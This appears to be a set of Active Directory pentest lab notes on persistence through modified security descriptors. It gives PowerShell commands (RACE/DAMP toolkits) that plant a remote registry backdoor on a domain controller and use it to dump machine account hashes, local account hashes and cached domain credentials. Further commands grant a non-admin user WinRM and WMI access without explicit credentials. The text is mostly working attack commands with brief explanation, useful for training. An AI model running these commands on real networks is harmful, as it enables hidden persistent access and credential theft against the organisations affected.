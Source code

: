 It's possible to modify Security Descriptors (security information like
Owner, primary group, DACL and SACL) of multiple remote access
methods (securable objects) to allow access to non-admin users.

Administrative privileges are required for this, however it is a very impactful backdoor mechanism

> [!NOTE] **NOTE**
> Security Descriptor Definition Language Format:
> `ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid`
> 
> ACE for built-in administrators for WMI namespaces:
> `A;CI;CCDCLCSWRPWPRCWD;;;SID`
> 
> We're interested in simply changing the SID to a user we control

### RACE
ACLs can be modified to allow non-admin users access to securable objects. Using the RACE toolkit:

```powershell
. .\Race.ps1
```

##### Remote Registry (machine hash backdoor)
Using RACE or DAMP, with admin privs on remote machine
```powershell
Add-RemoteRegBackdoor -ComputerName dcorp-dc -Trustee student1 -Verbose
```

As student1, retrieve machine account hash
```powershell
Get-RemoteMachineAccountHash -ComputerName dcorp-dc -Verbose
```

Retrieve local account hash
```powershell
Get-RemoteLocalAccountHash -ComputerName dcorp-dc -Verbose
```

Retrieve domain cached credentials
```powershell
Get-RemoteCachedCredential -ComputerName dcorp-dc -Verbose
```

##### WinRM
On a local machine
```powershell
Set-RemotePSRemoting -SamAccountName student548 -Verbose
```

On a remote machine for user `student548` **without** explicit credentials
```powershell
Set-RemotePSRemoting -SamAccountName student548 -ComputerName dcorp-dc -Verbose
```

Test
```powershell
Enter-PSSession -computername dcorp-dc
```

Removing permissions
```powershell
Set-RemotePSRemoting -SamAccountName student548 -ComputerName dcorp-dc -Remove
```
##### WMI
On a local machine
```powershell
Set-RemoteWMI -SamAccountName student548 -Verbose
```

On a remote machine for user `student548` **without** explicit credentials
```powershell
Set-RemoteWMI -SamAccountName student548 -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose
```

Removing permissions
```powershell
Set-RemoteWMI -SamAccountName student548 -ComputerName dcorp-dc-namespace 'root\cimv2' -Remove -Verbose
```

Test with `gwmi`
```powershell
gwmi -class win32_operatingsystem -ComputerName dcorp-dc
```